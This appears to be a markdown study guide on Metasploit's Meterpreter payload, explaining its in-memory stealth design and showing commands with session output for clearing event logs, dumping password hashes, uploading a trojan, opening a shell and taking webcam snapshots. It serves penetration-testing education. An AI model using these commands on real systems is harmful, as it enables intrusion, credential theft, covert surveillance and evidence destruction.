


# Meterpreter

* Meterpreter is an advanced, dynamically extensible **payload** that uses **in-memory** **DLL injection** **stagers** and is extended over the network at runtime. 
* It communicates over the **stager socket** and provides a comprehensive **client-side Ruby API**.

## How Meterpreter Works

1. The target executes the **initial stager**. This is usually one of bind, reverse, findtag, passivex, etc.
2. The stager **loads the DLL prefixed with Reflective**. The Reflective stub handles the **loading/injection of the DLL**.
3. The Metepreter core **initializes**, **establishes** a TLS/1.0 link over the socket and sends a GET. Metasploit receives this GET and **configures** the client.
4. Lastly, Meterpreter **loads extensions**. It will always load **stdapi** and will load **priv** if the module gives administrative rights. All of these extensions are loaded over TLS/1.0 using a TLV protocol.

## Meterpreter Design Goals

* **Stealthy**
  * Meterpreter resides entirely **in memory** and writes nothing to disk.
  * **No new processes** are created as Meterpreter injects itself into the compromised process and can **migrate** to other running processes easily.
  * By default, Meterpreter uses **encrypted** communications.
  * All of these provide **limited forensic evidence** and impact on the victim machine.
* **Powerful**
  * Meterpreter utilizes a **channelized** communication system.
  * The **TLV** protocol has few limitations.
* **Extensible**
  * New features can be added to Meterpreter **without** having to **rebuild** it.
  * Features can be **augmented at runtime** by loading extensions over the network.
    1. The **client uploads** the DLL over the socket.
    2. The **server** running on the victim **loads** the DLL in-memory and **initializes** it.
    3. The new extension **registers** itself with the server.
    4. The client on the attackers machine loads the local **extension API** and can now call the **extensions functions**.

## Meterpreter Basic Commands

### Help

```bash
meterpreter > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    channel       Displays information about active channels
...snip...
```

### Background

* The **background** command will send the **current** Meterpreter session to the **background** and **return** you to the ‘**msf**’ prompt.

```bash
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

### Cat

* The **cat** command **displays** the **content** of a **file**.

```bash
meterpreter > cat edit.txt
What you talkin' about Willis
```

### CD and PWD

* The **cd** and **pwd** commands are used to **change** and **display** current **working directory** on the target host.

```bash
meterpreter > pwd
c:\
meterpreter > cd c:\windows
meterpreter > pwd
c:\windows
```

### LCD and LPWD

* The **lcd** and **lpwd** commands are used to **change** and **display** the **local working directory** respectively.
* Changing the working directory will give your **Meterpreter session access to files** located in this folder.

```bash
meterpreter > lpwd
/root
meterpreter > lcd MSFU
meterpreter > lpwd
/root/MSFU
```

### ClearEV

* The **clearev** command will clear the **Application**, **System**, and **Security logs** on a **Windows** system.
* There are **no** options or arguments.



```bash
meterpreter > clearev
[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 0 records from Security...
meterpreter >
```



### Download

* The **download** command downloads a **file** from the **remote machine**.

```bash
meterpreter > download c:\\boot.ini
[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini
```

### Edit

* The **edit** command opens a **file** located on the **target host**.
 
* It uses the ‘**vim**’ so all the editor’s commands are available.

```bash
meterpreter > edit edit.txt
```

### Execute

* The **execute** command runs a **command** on the **target**.

```bash
meterpreter > execute -f cmd.exe -i -H
Process 38320 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

### GetUID

* Running **getuid** will display the **user** that the **Meterpreter server** is running **as** on the host.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Hashdump

* The **hashdump** post module will **dump** the **contents** of the **SAM** database, where user and group account information stored.

```bash
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
```

### IdleTime

* Running **idletime** will display the number of **seconds** that the user at the **remote machine** has been **idle**.

```bash
meterpreter > idletime
User has been idle for: 5 hours 26 mins 35 secs
```

### IPConfig

* The **ipconfig** command **displays** the **network interfaces** and **addresses** on the **remote machine**.

```bash
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0

AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC: 00:0c:29:10:f5:15
IP Address  : 192.168.1.104
Netmask     : 255.255.0.0
```

### LS

* The **ls** command will **list** the **files** in the current **remote directory**.

### Migrate

* Using the **migrate** post module, you can migrate to **another process** on the **victim**.

```bash
meterpreter > run post/windows/manage/migrate 

[*] Running module against V-MAC-XP
[*] Current server process: svchost.exe (1076)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)
meterpreter >
```

### PS

* The **ps** command **displays** a list of **running processes** on the **target**.

```bash
meterpreter > ps

Process list
============

    PID   Name                  Path
    ---   ----                  ----
    132   VMwareUser.exe        C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    152   VMwareTray.exe        C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    288   snmp.exe              C:\WINDOWS\System32\snmp.exe
...snip...
```

### Resource

* Run **Meterpreter instructions** located inside a **text file**.
* By default, the commands will **run** in the current working directory \(on **target machine**\) and **resource file** in the local working directory \(the **attacking machine**\).

```bash
root@kali:~# cat resource.txt
ls
background
```

```bash
meterpreter > resource resource.txt
[*] Reading /root/resource.txt
[*] Running ls

Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2012-02-29 16:41:29 -0500  .
40777/rwxrwxrwx   0       dir   2012-02-02 12:24:40 -0500  ..
100666/rw-rw-rw-  606     fil   2012-02-15 17:37:48 -0500  IDA Pro Free.lnk
100777/rwxrwxrwx  681984  fil   2012-02-02 15:09:18 -0500  Sc303.exe
100666/rw-rw-rw-  608     fil   2012-02-28 19:18:34 -0500  Shortcut to Ability Server.lnk
100666/rw-rw-rw-  522     fil   2012-02-02 12:33:38 -0500  XAMPP Control Panel.lnk

[*] Running background

[*] Backgrounding session 1...
msf  exploit(handler) >
```

### Search

* The **search** commands provides a way of **searching specific files** through the **whole system** or **specific folders** on the **target host**.

```bash
meterpreter > search -f autoexec.bat
Found 1 result...
    c:\AUTOEXEC.BAT
meterpreter > search -f sea*.bat c:\\xamp\\
Found 1 result...
    c:\\xampp\perl\bin\search.bat (57035 bytes)
meterpreter >
```

### Shell

* The **shell** command will present you with a **standard shell** on the **target system**.

```bash
meterpreter > shell
Process 39640 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

### Upload

* The **upload** command **uploads** a **file** to the **remote machine**.

```bash
meterpreter > upload evil_trojan.exe c:\\windows\\system32
[*] uploading  : evil_trojan.exe -> c:\windows\system32
[*] uploaded   : evil_trojan.exe -> c:\windows\system32\evil_trojan.exe
```

### WebCam\_List

* The **webcam\_list** command will **display** currently **available web cams** on the **target host**.

```bash
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro (VFW)
```

### WebCam\_Snap

* The **webcam\_snap** command **grabs a picture** from a connected web cam on the **target system**, and **saves** it to disc as a **JPEG** image.
* By default, the save location is the **local current working directory** with a **randomized filename**.

```bash
meterpreter > webcam_snap -h
Usage: webcam_snap [options]
Grab a frame from the specified webcam.

OPTIONS:

    -h   Displays the help information for the command
    -i   If more then 1 web cam is connected, use this option to select the device to capture the image from
    -p   Change path and filename of the image to be saved
    -q   The imagine quality, 50 being the default/medium setting, 100 being best quality
    -v   Automatically view the JPEG image (Default: 'true')
```

```bash
meterpreter > webcam_snap -i 1 -v false
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
```

## Python Extension

* Meterpreter’s python extension gives users the ability to **run Python code natively on a target machine**, without having the interpreter installed.
* See [Python Extension](https://www.offensive-security.com/metasploit-unleashed/python-extension-2/) and [Python Extension Examples](https://www.offensive-security.com/metasploit-unleashed/python-ext-examples/).

## References









